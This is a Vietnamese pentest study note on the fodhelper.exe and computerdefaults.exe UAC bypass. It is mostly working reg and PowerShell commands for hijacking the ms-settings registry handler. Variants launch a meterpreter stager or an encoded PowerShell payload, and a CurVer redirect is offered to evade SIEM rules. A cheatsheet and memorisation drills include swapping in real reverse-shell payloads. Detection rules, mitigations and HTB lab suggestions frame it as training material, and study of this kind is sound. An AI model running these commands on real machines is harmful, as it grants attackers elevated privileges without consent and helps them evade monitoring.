

> **Prerequisites**: [[01-uac-internals|01. UAC Internals]] · [[02-auto-elevation-mechanism|02. Auto-Elevation Mechanism]]
> **Objectives**:
> - Hiểu tại sao fodhelper.exe đọc HKCU trước HKLM
> - Thực hiện bypass thủ công và tự động hóa bằng PowerShell
> - Nắm rõ cả hai variant: DelegateExecute và CurVer redirect
> - Biết khi nào dùng computerdefaults thay fodhelper

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User phải thuộc local **Administrators group** (nhưng đang chạy Medium Integrity)
> - UAC không ở mức **Always Notify** (`ConsentPromptBehaviorAdmin != 2`)
> - Windows 10 / Windows 11 (fodhelper.exe tồn tại từ Windows 10)
> - Shell không cần GUI — hoàn toàn thực hiện được từ reverse shell

> [!tip] Kiểm tra nhanh
> ```cmd
> whoami /groups | findstr "S-1-5-32-544"
> ```
> Nếu có output → user trong Administrators group → technique áp dụng được.

---

## Cơ chế tấn công

### Tại sao fodhelper.exe bị exploit?

`fodhelper.exe` (Features on Demand Helper) là binary quản lý Optional Windows Features. Nó có `autoElevate=true` trong manifest — khi được khởi động ở Medium Integrity, AppInfo tự nâng nó lên High Integrity.

Khi chạy, `fodhelper.exe` cần mở Settings app (`ms-settings:`). Để tìm handler cho URI scheme `ms-settings`, Windows tìm kiếm registry theo thứ tự:

```text
1. HKCU\Software\Classes\ms-settings\Shell\Open\command  ← HKCU first!
2. HKLM\Software\Classes\ms-settings\Shell\Open\command  ← fallback
```

Vì HKCU được đọc **trước** HKLM, và user ở Medium Integrity **có thể ghi vào HKCU**, attacker có thể plant command vào HKCU. Khi `fodhelper.exe` (đã ở High Integrity) đọc HKCU và thực thi command đó, payload chạy với High Integrity.

Luồng tấn công hoàn chỉnh:

```text
Medium Integrity shell
    ↓ reg add HKCU\...\ms-settings\Shell\Open\command → "cmd.exe"
    ↓ Start-Process fodhelper.exe
        ↓ AppInfo → auto-elevate fodhelper → High Integrity
            ↓ fodhelper reads HKCU\...\ms-settings\Shell\Open\command
            ↓ Finds attacker's "cmd.exe"
            ↓ Executes cmd.exe INHERITING High Integrity
→ High Integrity cmd.exe spawned — no UAC prompt
```

### Hai Variant Kỹ Thuật

**Variant 1 — DelegateExecute (classic)**

Registry path: `HKCU\Software\Classes\ms-settings\Shell\Open\command`

Cần set cả hai values:
- `(Default)` = payload path
- `DelegateExecute` = "" (empty string, bắt buộc phải tồn tại)

**Variant 2 — CurVer redirect (stealth, UACME 3.5+)**

Thay vì hijack `ms-settings` trực tiếp, redirect ProgID sang CurVer:

Registry path: `HKCU\Software\Classes\ms-settings\CurVer`
- `(Default)` = tên ProgID tùy ý, ví dụ "ms-settings.1337"

Rồi tạo: `HKCU\Software\Classes\ms-settings.1337\Shell\Open\command`
- `(Default)` = payload

Kỹ thuật này tránh một số SIEM rule chỉ monitor key `ms-settings\Shell\Open\command`.

---

## Quy trình tấn công

**Môi trường giả định**: Shell ở `C:\Windows\System32\cmd.exe` (Medium Integrity), user `victim` trong Administrators group.

### Bước 1 — Xác nhận điều kiện

```cmd
whoami /groups | findstr "S-1-5-32-544"
whoami /groups | findstr "Medium Mandatory"
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
```

> **Expected output**: Administrators SID xuất hiện, "Medium Mandatory" xuất hiện, ConsentPromptBehaviorAdmin = 0x5 (default).

### Bước 2 — Plant registry payload (CMD)

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
```

> **Expected output**: "The operation completed successfully." cho cả hai lệnh.

### Bước 3 — Trigger fodhelper.exe

```cmd
start fodhelper.exe
```

> **Expected output**: Một cửa sổ `cmd.exe` mới xuất hiện mà không có UAC prompt.

### Bước 4 — Xác nhận High Integrity

Trong cmd mới:

```cmd
whoami /groups | findstr "Mandatory"
whoami /priv | findstr "SeDebugPrivilege"
```

> **Expected output**: "High Mandatory Level" và SeDebugPrivilege = Enabled.

### Bước 5 — Cleanup

```cmd
reg delete "HKCU\Software\Classes\ms-settings" /f
```

> **Expected output**: "The operation completed successfully."

### PowerShell One-liner (automation)

```powershell
# fodhelper bypass — one block
$cmd = "cmd.exe /c start cmd.exe"
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value $cmd | Out-Null
New-ItemProperty -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
    -Name "DelegateExecute" -Value "" | Out-Null
Start-Process "C:\Windows\System32\fodhelper.exe"
Start-Sleep -Seconds 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings" -ErrorAction SilentlyContinue
```

### computerdefaults.exe — Drop-in Replacement

`computerdefaults.exe` dùng **cùng registry key** `ms-settings` nhưng là binary khác. Dùng khi `fodhelper.exe` bị block bởi AppLocker hoặc EDR rule cụ thể:

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start computerdefaults.exe
```

> **Expected output**: Tương tự fodhelper — cmd.exe mới ở High Integrity.

---

## Biến thể & Bypass

### Reverse Shell thay vì cmd.exe

```powershell
# Plant meterpreter stager
$payload = "C:\Users\Public\shell.exe"
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value $payload | Out-Null
New-ItemProperty -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
    -Name "DelegateExecute" -Value "" | Out-Null
Start-Process "fodhelper.exe"
Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings" -ErrorAction SilentlyContinue
```

### PowerShell command thay vì binary

```powershell
# Thực thi PowerShell command trực tiếp
$cmd = 'powershell.exe -enc <BASE64_ENCODED_COMMAND>'
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value $cmd | Out-Null
New-ItemProperty -Force -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
    -Name "DelegateExecute" -Value "" | Out-Null
Start-Process "fodhelper.exe"
```

### CurVer Redirect (evasion)

```powershell
# Dùng CurVer để tránh rule monitor ms-settings\Shell\Open\command
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings" | Out-Null
New-ItemProperty -Force -Path "HKCU:\Software\Classes\ms-settings" `
    -Name "CurVer" -Value "ms-settings.pwn" | Out-Null
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings.pwn\Shell\Open\command" `
    -Value "cmd.exe" | Out-Null
Start-Process "fodhelper.exe"
Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings" -ErrorAction SilentlyContinue
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings.pwn" -ErrorAction SilentlyContinue
```

---

## Cây quyết định



---

## Command Cheatsheet

**Kiểm tra điều kiện**

```cmd
rem Kiểm tra user trong Administrators group
whoami /groups | findstr "S-1-5-32-544"

rem Kiểm tra integrity level hiện tại
whoami /groups | findstr "Mandatory"

rem Kiểm tra UAC level
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

**fodhelper bypass (CMD)**

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start fodhelper.exe
rem Cleanup:
reg delete "HKCU\Software\Classes\ms-settings" /f
```

**fodhelper bypass (PowerShell)**

```powershell
$p = "HKCU:\Software\Classes\ms-settings\Shell\Open\command"
New-Item -Force -Path $p -Value "cmd.exe" | Out-Null
New-ItemProperty -Force -Path $p -Name "DelegateExecute" -Value "" | Out-Null
Start-Process fodhelper.exe; Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings"
```

**computerdefaults (swap-in)**

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start computerdefaults.exe
```

**Verify success**

```cmd
whoami /groups | findstr "High Mandatory"
whoami /priv | findstr "SeDebugPrivilege"
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — CMD variant từ đầu đến cuối**
Mục tiêu: thực hiện toàn bộ flow trong dưới 60 giây không nhìn notes.

```cmd
whoami /groups | findstr "S-1-5-32-544"
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start fodhelper.exe
reg delete "HKCU\Software\Classes\ms-settings" /f
```

Luyện cho đến khi: gõ 4 lệnh chính xác không cần mở cheatsheet, bao gồm cả cleanup.

**Drill 2 — PowerShell one-liner**
Mục tiêu: viết lại PowerShell block từ trí nhớ.

```powershell
$p = "HKCU:\Software\Classes\ms-settings\Shell\Open\command"
New-Item -Force -Path $p -Value "PAYLOAD" | Out-Null
New-ItemProperty -Force -Path $p -Name "DelegateExecute" -Value "" | Out-Null
Start-Process fodhelper.exe; Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings"
```

Luyện cho đến khi: nhớ đủ 5 dòng, đặc biệt nhớ path `HKCU:\Software\Classes\ms-settings\Shell\Open\command`.

**Drill 3 — Substitution**
Thay `cmd.exe` bằng payload thực tế: đường dẫn reverse shell, PowerShell encoded command.

Luyện cho đến khi: biết thay thế payload mà không làm hỏng format lệnh.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Registry**: Monitor write đến `HKCU\Software\Classes\ms-settings\Shell\Open\command`
> - Sysmon Event ID 13 (Registry value set) — path chứa `ms-settings`
> - SIEM rule: `registry.path : "*ms-settings*Shell*Open*command*" AND registry.data.strings : ("cmd.exe", "powershell.exe", "*.exe")`
>
> **Process**: `fodhelper.exe` spawn process con không phải `C:\Windows\System32\` binary
> - Sysmon Event ID 1 (Process Create): `ParentImage = fodhelper.exe`, `Image NOT IN whitelist`
>
> **Token Security Attribute**: Process con của fodhelper có `LUA://DecHdAutoAp` token attribute (Elastic Endpoint 7.16+)
>
> **UACME variant detection**: Monitor `HKCU\Software\Classes\ms-settings\CurVer` write

> [!note] Mitigation
> - Set UAC to **Always Notify** (`ConsentPromptBehaviorAdmin = 2`) — ngăn auto-elevation
> - Áp dụng AppLocker/WDAC rule block `fodhelper.exe` và `computerdefaults.exe`
> - Monitor registry writes to `HKCU\Software\Classes\` từ non-elevated process
> - Không để user thông thường trong Administrators group

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **VulnEscape** (Retired) | UAC bypass với fodhelper sau khi escape kiosk — context thực tế |
| Local VM | Windows 10/11 VM | Set up VM với user trong Administrators, test cả hai variant |
| HTB | **SecNotes** (Retired) | fodhelper sau initial foothold trên Windows |
| HTB | **Arkham** (Retired) | UAC bypass context — dùng các technique khác nhau |

---

## Field Manual Entry

> [!abstract] fodhelper / computerdefaults UAC Bypass
> **Điều kiện**: User trong Administrators group, UAC ≠ Always Notify, Windows 10/11
> **Lệnh nhanh**:
> ```cmd
> reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
> reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
> start fodhelper.exe
> ```
> **Cleanup**: `reg delete "HKCU\Software\Classes\ms-settings" /f`
> **Verify**: `whoami /groups | findstr "High Mandatory"`
> **Swap binary**: Thay `fodhelper.exe` bằng `computerdefaults.exe` nếu bị block
> **Ref**: [[03-registry-hijack-fodhelper|03. Registry Hijack — fodhelper & computerdefaults]]
